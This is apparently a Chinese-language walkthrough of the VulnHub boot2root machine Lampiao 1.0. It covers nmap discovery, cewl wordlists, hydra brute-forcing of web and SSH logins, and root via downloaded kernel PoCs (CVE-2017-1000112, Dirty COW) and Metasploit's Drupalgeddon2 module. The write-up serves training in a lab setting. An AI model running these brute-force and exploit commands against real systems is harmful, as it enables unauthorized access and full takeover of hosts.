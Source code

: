 # Lampiao 1.0

## Infomation

**Lampiao 1.0** is a vulnerable machine created by [VulnHub](https://www.vulnhub.com/entry/lampiao-1,249/). 

Lampião 1.0 是一个难度为初级的Boot2root/CTF挑战

描述：Virgulino Ferreira da Silva，绰号Lampião（油灯），是巴西东北地区最有名的土匪首领。

- [合天网安 VulnHub渗透测试实战靶场Lampiao 1.0](https://www.hetianlab.com/expc.do?ec=ECID2be0-d959-4d2b-8909-2db854f3c0a2)

## 思路

### 0x01 扫描

- `nmap -sP 192.168.128.1/24` 找到主机
- `nmap -A 192.168.128.135` 找到开放端口和服务

扫描出来 Drupal 是一个突破口，后面看看能不能利用

### 0x02 分析

打开扫描出来的网站看看有没有发现

- http://192.168.128.135 # 没啥发现
- http://192.168.128.135:1898 # 是一个类似博客的站点，有登录功能，有文章发布功能，从文章信息中可以看到发布文章的用户名

找到用户名就可以尝试一下密码爆破了，首先制作密码字典，然后使用 `hydra` 进行爆破

其中制作密码字典的工具有很多，这里使用 `cewl` 来制作密码字典 `cewl -w target.txt http://192.168.128.135:1898/?q=node/1`

??? tip "字典制作工具"

    - [CeWL](https://www.kali.org/tools/cewl/): 是个 Kali 中的工具，爬取网站并提取独立单词的列表。他它也可以提供每次单词的重复次数，保存结果到文件，使用页面的元数据。
    - [crunch](https://www.kali.org/tools/crunch/): 是个 Kali 中的工具，这是基于由用户提供的字符集合的生成器，它使用这个集合来生成所有可能的组合。。
    - [Wordlist Maker(WLM)](http://www.pentestplus.co.uk/wlm.htm): WLM 能够基于字符集来生成单词列表，也能够从文本文件和网页中提取单词。
    - [Common User Password Profiler (CUPP)](https://github.com/Mebus/cupp): 这个工具可以使用单词列表来为常见的用户名分析可能的密码，以及从数据库下载单词列表和默认密码



然后使用 `hydra` 进行爆破 `hydra -L username.txt -P target.txt -vV -f 192.168.128.135 -s 1898 http-post-form "/?q=node/1&destination=node/1:name=^USER^&pass=^PASS^&form_build_id=form-WKAqjKEpImQ1oLNhJtypMBxwHeQY409y_3QCEB5trJY&form_id=user_login_block&op=Log+in:Sorry, unrecognized username or password."`

*注意到有一种服务类型为：http[s]-{get|post}-form，选择此服务类型，Hydra会发送Web的form表单模拟登录，可选POST或GET方式。*

??? tip "hydra 参数说明"
    
    - `-R`        恢复前一次失败的或缓存的攻击
    - `-S`        使用SSL连接
    - `-s PORT`   若是服务没有使用默认端口，则用这一参数指定端口
    - `-l LOGIN or -L FILE`  把LOGIN作为登录名，或是从文件FILE中载入一系列登录名
    - `-p PASS  or -P FILE`  将PASS作为密码, 或是从文件FILE中载入一系列密码
    - `-x MIN:MAX:CHARSET`  生成暴力破解用的密码, 输入 "-x -h" 获得更多帮助
    - `-e nsr`    尝试： n 空密码，s 将登录名作为密码，r 反转登录
    - `-u`        循环用户名, 不使用密码 (有效的! 用 -x 说明)
    - `-C FILE`   取代 -L/-P 选项，输入格式是以冒号分割："login:pass"
    - `-M FILE`   要攻击的服务器列表, 一行一个, 用':'指定端口
    - `-o FILE`   将找到的用户名/密码对写入到文件FILE中，而不输出到标准输出
    - `-f / -F`   当找到一对用户名/密码后退出 (-M: -f 每个主机, -F 全局)
    - `-t TASKS`  同时运行TASKS个线程 (每个主机默认为16)
    - `-w / -W TIME`  每个请求的等待时间 (32) / 线程之间发起连接的时间间隔 (0)
    - `-4 / -6`   使用IPv4 (默认) / IPv6 地址 (put always in [] also in -M)
    - `-v / -V / -d`  冗余模式 / 展示每次攻击时使用的用户名和密码 / 调试模式
    - `-O`        使用旧版的SSL v2 和 v3
    - `-q`        不输出有关连接错误的信息
    - `-U`        服务模块用法细节
    - `server`    目标服务器: DNS, IP or 192.168.0.0/24 (使用此选项或 -M 选项)
    - `service`   要破解的服务 (支持的协议在上面已经给出了)
    - `OPT`       一些服务模块支持额外的输入 (参数 -U 可查看模块帮助)

web 密码破解出来后登录时发现登录次数超限了，白忙活了

换个思路试试破解 ssh 密码，同样是用 hydra 进行爆破，`hydra -L username.txt -P target.txt -f -e nsr -t 8 ssh://192.168.128.135`

ssh 密码破解成功后，登录 shh，接下来就是提取了

### 0x03 提权

尝试利用SUID提权，比如nmap，vim，less等，发现均没有成功。

#### 第一种

[Linux内核逃逸 (CVE-2017-1000112) 提权](#linux-cve-2017-1000112)，由于内核版本 < 4.12.3，所以可以利用此漏洞提权。

但在提权过程中需要编译c文件，但是在此机器上没有编译器，所以需要先上传编译器，这里使用的是 gcc，上传后编译 c 文件，然后执行即可提权成功。

#### 第二种

[Dirty COW (CVE-2016-5195) 提权](#dirty-cow-cve-2016-5195)，由于内核版本 >= 2.6.22，所以可以利用此漏洞提权。

具体操作步骤参照下文总结部分。

#### 第三种

[Drupal Drupalgeddon 2 远程代码执行漏洞 (CVE-2018-7600) 提权](#drupal-drupalgeddon-2-cve-2018-7600)，由于在最开始扫描结果中发现了 Drupal，所以可以利用此漏洞提权。

具体操作步骤参照下文总结部分。



## 总结

### Linux内核逃逸 (CVE-2017-1000112) 提权

???+ tip "Linux内核逃逸 (CVE-2017-1000112)"

    Linux内核中的UDP碎片卸载(UFO)代码中的内存损坏问题可能导致本地特权的升级。

    影响范围：Linux Kernel < 4.12.3

[PoC](https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-1000112/poc.c){ .md-button }

#### Installation:

Compile the PoC:

- `curl -o poc.c https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c`
- `gcc poc.c -o poc`

Run the PoC:

- `./poc` # done, should be root now


### Dirty COW (CVE-2016-5195) 提权

???+ tip "Dirty COW"

    脏牛漏洞当年可以秒杀大部分Linux系统，但是现在已经修复了，所以这里就不再赘述了。
    
    影响范围：Linux Kernel >= 2.6.22（2007年发行）开始就受影响了，直到2016年10月18日才修复。

[PoC](https://github.com/gbonacini/CVE-2016-5195){ .md-button }   [Exploit](https://www.exploit-db.com/exploits/40847){ .md-button }

#### Installation:

Compile the program: 

- `curl -o dcow.cpp https://raw.githubusercontent.com/gbonacini/CVE-2016-5195/master/dcow.cpp`

- `g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil`

Start the program:

- `./dcow`

or

- `./dcow -s` # Automatically open a root shell and restore the passwd file.

- `./dcow -s -n` # Automatically open a root shell but doesn't restore the passwd file.

Online help:

- `./dcow -h`

### Drupal Drupalgeddon 2 远程代码执行漏洞 (CVE-2018-7600) 提权

Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由由内容管理系统和PHP开发框架共同构成，在GPL2.0及更新协议下发布。连续多年荣获全球最佳CMS大奖，是基于PHP语言最著名的WEB应用程序。

2018年3月28日，Drupal Security Team官方发布公告称Drupal 6,7,8等多个子版本存在远程代码执行漏洞，攻击者可以利用该漏洞执行恶意代码。

Drupal未对表单请求数据做严格过滤，导致攻击者可以将恶意代码注入表单内容，此漏洞允许未经身份验证的攻击者在默认或常见的Drupal安装上执行远程代码执行。

受影响的版本范围：Drupal 6.x, < 7.58, 8.2.x, < 8.3.9, < 8.4.6, and < 8.5.1

[MSF](https://www.rapid7.com/db/modules/exploit/unix/webapp/drupal_drupalgeddon2/){ .md-button }

#### Exploit

```shell
MSF: use unix/webapp/drupal_drupalgeddon2
MSF: set rhosts 192.168.128.135
MSF: set rport 1898
MSF: exploit
meterpreter > shell
```


## 参考

- [CVE-2017-1000112漏洞分析](https://www.anquanke.com/post/id/92755#h2-18)
- [CVE-2017-1000112 PoC](https://github.com/xairy/kernel-exploits/blob/master/CVE-2017-1000112/poc.c)
- [CVE-2016-5195漏洞分析](https://www.anquanke.com/post/id/84772/)
- [CVE-2016-5195 PoC](https://github.com/gbonacini/CVE-2016-5195/blob/master/dcow.cpp)
- [CVE-2018-7600漏洞分析](https://www.cnblogs.com/4thrun/p/15148584.html)
- [Linux提权-利用SUID提权](https://blog.csdn.net/fly_hps/article/details/80428173)
- [合天网安-脏牛提取实验](http://www.hetianlab.com/expc.do?ec=ECID9d6c0ca797abec2016103117181500001)